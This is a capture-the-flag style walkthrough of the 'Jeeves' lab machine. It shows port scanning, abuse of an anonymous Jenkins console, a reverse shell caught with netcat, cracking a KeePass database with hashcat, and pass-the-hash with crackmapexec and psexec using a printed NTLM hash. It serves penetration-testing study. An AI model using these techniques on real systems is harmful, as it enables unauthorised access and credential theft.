









# Nmap

```bash
sudo nmap 10.129.66.187 -p- -Pn -A -vv

PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
445/tcp   open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         syn-ack ttl 127 Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows 10 1607 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows 11 (86%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows Vista or Windows 7 (86%), Microsoft Windows Server 2008 R2 or Windows 7 SP1 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.95%E=4%D=2/2%OT=80%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=6980A6A0%P=x86_64-pc-linux-gnu)
SEQ(SP=104%GCD=1%ISR=10A%TI=I%II=I%SS=S%TS=A)
SEQ(SP=109%GCD=1%ISR=10A%TI=I%TS=A)
OPS(O1=M542NW8ST11%O2=M542NW8ST11%O3=M542NW8NNT11%O4=M542NW8ST11%O5=M542NW8ST11%O6=M542ST11)
WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)
ECN(R=Y%DF=Y%TG=80%W=2000%O=M542NW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.004 days (since Mon Feb  2 08:23:45 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 40242/tcp): CLEAN (Timeout)
|   Check 2 (port 36182/tcp): CLEAN (Timeout)
|   Check 3 (port 51716/udp): CLEAN (Timeout)
|   Check 4 (port 37569/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2026-02-02T18:29:36
|_  start_date: 2026-02-02T18:25:04
|_clock-skew: mean: 5h01m09s, deviation: 0s, median: 5h01m09s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE (using port 135/tcp)
HOP RTT       ADDRESS
1   105.82 ms 10.10.16.1
2   105.92 ms 10.129.66.187

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 08:29
Completed NSE at 08:29, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 08:29
Completed NSE at 08:29, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 08:29
Completed NSE at 08:29, 0.00s elapsed
Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 235.39 seconds
           Raw packets sent: 131282 (5.781MB) | Rcvd: 165 (8.374KB)
```


As we seen the open port which being 80, 445 and 50000 where we can start with simple enumeration using whatweb and smbmap 

```bash
whatweb 10.129.66.187                                                            
http://10.129.66.187 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.66.187], Microsoft-IIS[10.0], Title[Ask Jeeves
```



On Inspection we can see the website hosted on port 80 is mostly static 



and website as well doesn't reveal the jenkin version on 404, further move towards other 
```bash
whatweb 10.129.66.187:50000
http://10.129.66.187:50000 [404 Not Found] Country[RESERVED][ZZ], HTTPServer[Jetty(9.4.z-SNAPSHOT)], IP[10.129.66.187], Jetty[9.4.z-SNAPSHOT], PoweredBy[Jetty://], Title[Error 404 Not Found]
```


```BASH
┌──(penguin㉿0XFAF0)-[~/CPTS]
└─$ smbclient //10.129.66.187/SambaShare -N                                                    
session setup failed: NT_STATUS_ACCESS_DENIED

```

The SMB service on 10.129.66.187 is configured to reject unauthenticated sessions. This indicates that Null Sessions and Guest Access have been disabled, requiring valid credentials to enumerate or access network shares

Lets try Directory fuzzing on both website if we find valuable directory
```bash
┌──(penguin㉿0XFAF0)-[~/CPTS]
└─$ gobuster dir -u http://10.129.66.187 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.66.187
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 220557 / 220557 (100.00%)
===============================================================
Finished
===============================================================
```

There was nothing o port 80 server however port **50000** 
```bash
gobuster dir -u http://10.129.66.187:50000 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.66.187:50000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/askjeeves            (Status: 302) [Size: 0] [--> http://10.129.66.187:50000/askjeeves/]
```



it given instruction to run jenkin cli lets try to enumerate it 
```bash
java -jar jenkins-cli.jar -s http://10.129.66.187:50000/askjeeves/ who-am-i                             
Authenticated as: anonymous
Authorities:
```

```bash
java -jar jenkins-cli.jar -s http://10.129.66.187:50000/askjeeves/ groovysh
```
 I tried the groovy shell however it isnt much reliable at all further on enumeration script console does command injection
 


 
 


 Successfully able to catch an reverse shell by execute in it base64 format
```bash
 nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.17.2] from (UNKNOWN) [10.129.67.252] 49676
whoami                                                                                                 
jeeves\kohsuke                                    
PS C:\Users\Administrator\.jenkins>  
 ```
```bash
 PS C:\Users\Kohsuke\Desktop> cat user.txt
e3232**************e7066a
PS C:\Users\Kohsuke\Desktop> 
 ```
First User flag has been captured

```powershell
PS C:\Users\kohsuke> Get-ChildItem -Recurse

    Directory: C:\Users\kohsuke


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        11/3/2017  10:51 PM                .groovy                                                               
d-r---        11/3/2017  11:15 PM                Contacts                                                              
d-r---        11/3/2017  11:19 PM                Desktop                                                               
d-r---        11/3/2017  11:18 PM                Documents                                                             
d-r---        11/3/2017  11:15 PM                Downloads                                                             
d-r---        11/3/2017  11:15 PM                Favorites                                                             
d-r---        11/3/2017  11:22 PM                Links                                                                 
d-r---        11/3/2017  11:15 PM                Music                                                                 
d-r---        11/3/2017  11:22 PM                OneDrive                                                              
d-r---        11/4/2017   3:10 AM                Pictures                                                              
d-r---        11/3/2017  11:15 PM                Saved Games                                                           
d-r---        11/3/2017  11:16 PM                Searches                                                              
d-r---        11/3/2017  11:15 PM                Videos                                                                


    Directory: C:\Users\kohsuke\.groovy


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        11/3/2017  10:51 PM                grapes                                                                


    Directory: C:\Users\kohsuke\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---        11/3/2017  11:22 PM             32 user.txt                                                              


    Directory: C:\Users\kohsuke\Documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx                                                              


    Directory: C:\Users\kohsuke\Favorites


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-r---        11/3/2017  11:15 PM                Links                                                                 
-a----        11/3/2017  11:15 PM            208 Bing.url                                                              


    Directory: C:\Users\kohsuke\Links


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        11/3/2017  11:15 PM            500 Desktop.lnk                                                           
-a----        11/3/2017  11:15 PM            941 Downloads.lnk                                                         
-a----        11/3/2017  11:22 PM           1335 OneDrive.lnk                                                          


    Directory: C:\Users\kohsuke\Pictures


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-r---        11/3/2017  11:16 PM                Camera Roll                                                           
d-r---        11/4/2017   3:10 AM                Saved Pictures                                                        


    Directory: C:\Users\kohsuke\Searches


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        11/3/2017  11:16 PM            848 winrt--{S-1-5-21-2851396806-8246019-2289784878-1001}-.searchconnector-ms
```

we found **keePass** passwod database file which store encrypted credential 

To transfer the file from the victim-->host i tried to use python servers , powershell listner nothing worked so far which mean thier should be strong ACL control

Moved the file to jenkins workspace and downloaded from and deleted 

```powershell
PS C:\Users\Administrator\.jenkins\workspace\penguin\penguin> ls


    Directory: C:\Users\Administrator\.jenkins\workspace\penguin\penguin


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx                                                              


PS C:\Users\Administrator\.jenkins\workspace\penguin\penguin> 

```





```bash
keepass2john CEH.kdbx > Ceh.Hash
```

```bash
hashcat -m 13400 --username Ceh.Hash /usr/share/wordlists/rockyou.txt
```

Cracked Master password which is **moonshine1** 




I tried to access smb with given credential from the **kdb** to authenticate  but none worked 

I tried cracked the NTLM hash from the username  ?




so tried the PasstheHash attack with all the given username on smb using **crackmapexec**
```bash
 crackmapexec smb 10.129.67.252 -u username.txt -H aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```




```bash
impacket-psexec Jeeves/administrator@10.129.67.252 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

```bash
C:\Users\Administrator\Desktop> more < hm.txt:root.txt
afbc*************2530
```

The root flag was stored in an NTFS Alternate Data Stream attached to hm.txt. The stream was enumerated using directory listing and accessed via Windows-native commands, confirming administrative file system access.
